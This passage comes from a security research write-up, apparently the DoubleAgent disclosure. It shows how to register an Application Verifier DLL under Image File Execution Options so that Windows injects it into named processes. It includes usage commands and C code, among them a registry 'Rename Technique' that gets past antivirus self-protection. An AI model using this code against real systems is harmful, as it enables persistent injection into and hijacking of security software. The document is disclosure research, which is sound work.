

Registration
Application verifier providers are registered per executable name, meaning each DLL is bounded to a specific executable name, and would be injected to every new process that was launched with the registered process name. e.g. If one would register DoubleAgentDll.dll to cmd.exe and would launch: “C:/cmd.exe” and “C:/Windows/System32/cmd.exe” then DoubleAgentDll.dll would be injected to both processes. Once registered, the injection happens automatically by the operating system every time a new process is created with the registered name. The injection would happen consistently regardless of rebootsupdatesreinstallspatches or anything else. Each time a new process is created with the registered name it would be injected with the application verifier provider. One can register a new application verifier provider by using our publicly available DoubleAgent project.
Usage: DoubleAgent.exe installuninstallrepair process_name
e.g. DoubleAgent.exe install cmd.exe
Or integrate the registration capabilities in an existing project using our verifier module.
/*
* Installs an application verifier for the process
*/
DOUBLEAGENT_STATUS VERIFIER_Install(IN PCWSTR pcwszProcessName, IN PCWSTR pcwszVrfDllName, IN PCWSTR pcwszVrfDllPathX86, IN PCWSTR pcwszVrfDllPathX64);
/*
* In some cases (application crash, exception, etc.) the installuninstall functions may accidentally leave the machine in an undefined state
* Repairs the machine to its original state
*/
DOUBLEAGENT_STATUS VERIFIER_Repair(VOID);
/*
* Uninstalls the application verifier from the process
*/
VOID VERIFIER_Uninstall(IN PCWSTR pcwszProcessName, IN PCWSTR pcwszVrfDllName);
Under the hood, the registration process creates two new registry keys under: HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options/PROCESS_NAME
/* Creates the VerifierDlls value and sets it to the verifier dll name */
bCreatedVerifierDlls = (ERROR_SUCCESS == RegSetKeyValueW(hIfeoKey, pcwszProcessName, VERIFIER_VERIFIERDLLS_VALUE_NAME, REG_SZ, pcwszVrfDllName, dwVrfDllNameLenInBytes));
/*
* Creates the GlobalFlag value and sets it to FLG_APPLICATION_VERIFIER
* Read more: https://msdn.microsoft.com/en-us/library/windows/hardware/ff542875(v=vs.85).aspx
*/
bCreatedGlobalFlag = (ERROR_SUCCESS == RegSetKeyValueW(hIfeoKey, pcwszProcessName, VERIFIER_GLOBALFLAG_VALUE_NAME, REG_DWORD, &dwGlobalFlag, sizeof(dwGlobalFlag)));
The final result should be:

Some antiviruses try to protect the keys of their processes under the “Image File Execution Options” by trying to block any attempt to createmodify keys. e.g. an antivirus might try to block any attempt to access “Image File Execution Options/ANTIVIRUS_NAME”.
These simple protections can easily be bypassed by slightly modifying the registry path. e.g. Instead of accessing “Image File Execution Options/ANTIVIRUS_NAME” we would first rename “Image File Execution Options” to a temporary new name like “Image File Execution Options Temp”, create the new registry keys under “Image File Execution Options TempANTIVIRUS_NAME” and then rename “Image File Execution Options” back to its original name.
Because the creation of the new keys happened under “Image File Execution Options TempANTIVIRUS_NAME” and not “Image File Execution Options/ANTIVIRUS_NAME” it was enough to bypass the antivirus self-protection technique. From all the antiviruses we tested only a few tried to protect their registry keys, and all of them were bypassed using the “Rename Technique”. The “Rename Technique” has been implemented as part of our verifier modulecan can be used “out-of-the-box”.
/* Creates the VerifierDlls value and sets it to the verifier dll name */
bCreatedVerifierDlls = (ERROR_SUCCESS == RegSetKeyValueW(hIfeoKey, pcwszProcessName, VERIFIER_VERIFIERDLLS_VALUE_NAME, REG_SZ, pcwszVrfDllName, dwVrfDllNameLenInBytes));
/*
* Creates the GlobalFlag value and sets it to FLG_APPLICATION_VERIFIER
* Read more: https://msdn.microsoft.com/en-us/library/windows/hardware/ff542875(v=vs.85).aspx
*/
bCreatedGlobalFlag = (ERROR_SUCCESS == RegSetKeyValueW(hIfeoKey, pcwszProcessName, VERIFIER_GLOBALFLAG_VALUE_NAME, REG_DWORD, &dwGlobalFlag, sizeof(dwGlobalFlag)));
/*
* The key creation might fail because some antiviruses protect the keys of their processes under the IFEO
* One possible bypass is to rename the IFEO key name to a temporary name, create the keys, and restores the IFEO key name
*/
if ((FALSE == bCreatedVerifierDlls) || (FALSE == bCreatedGlobalFlag))
{
/* Renames the IFEO key name to a temporary name */
if (ERROR_SUCCESS != RegRenameKey(hIfeoKey, NULL, VERIFIER_IMAGE_FILE_EXECUTION_OPTIONS_NAME_TEMP))
{
DOUBLEAGENT_SET(eStatus, DOUBLEAGENT_STATUS_DOUBLEAGENT_VERIFIER_REGISTER_REGRENAMEKEY_FAILED);
goto lbl_cleanup;
}
bKeyRenamed = TRUE;
/*
* Opens the temporary IFEO key
* The key is reopened because some antiviruses continue monitoring and blocking the handle that opened the original IFEO
*/
if (ERROR_SUCCESS != RegOpenKeyExW(HKEY_LOCAL_MACHINE, VERIFIER_IMAGE_FILE_EXECUTION_OPTIONS_SUB_KEY_TEMP, 0, KEY_SET_VALUE | KEY_WOW64_64KEY, &hIfeoKeyTemp))
{
DOUBLEAGENT_SET(eStatus, DOUBLEAGENT_STATUS_DOUBLEAGENT_VERIFIER_REGISTER_REGOPENKEYEXW_FAILED_TEMP_IFEO);
goto lbl_cleanup;
}
if (FALSE == bCreatedVerifierDlls)
{
/* Tries again to create the VerifierDlls value */
if (ERROR_SUCCESS != RegSetKeyValueW(hIfeoKeyTemp, pcwszProcessName, VERIFIER_VERIFIERDLLS_VALUE_NAME, REG_SZ, pcwszVrfDllName, dwVrfDllNameLenInBytes))
{
DOUBLEAGENT_SET(eStatus, DOUBLEAGENT_STATUS_DOUBLEAGENT_VERIFIER_REGISTER_REGSETKEYVALUEW_FAILED_VERIFIERDLLS);
goto lbl_cleanup;
}
bCreatedVerifierDllsTemp = TRUE;
}
if (FALSE == bCreatedGlobalFlag)
{
/* Tries again to create the GlobalFlag value */
if (ERROR_SUCCESS != RegSetKeyValueW(hIfeoKeyTemp, pcwszProcessName, VERIFIER_GLOBALFLAG_VALUE_NAME, REG_DWORD, &dwGlobalFlag, sizeof(dwGlobalFlag)))
{
DOUBLEAGENT_SET(eStatus, DOUBLEAGENT_STATUS_DOUBLEAGENT_VERIFIER_REGISTER_REGSETKEYVALUEW_FAILED_GLOBALFLAG);
goto lbl_cleanup;
}
bCreatedGlobalFlagTemp = TRUE;
}
}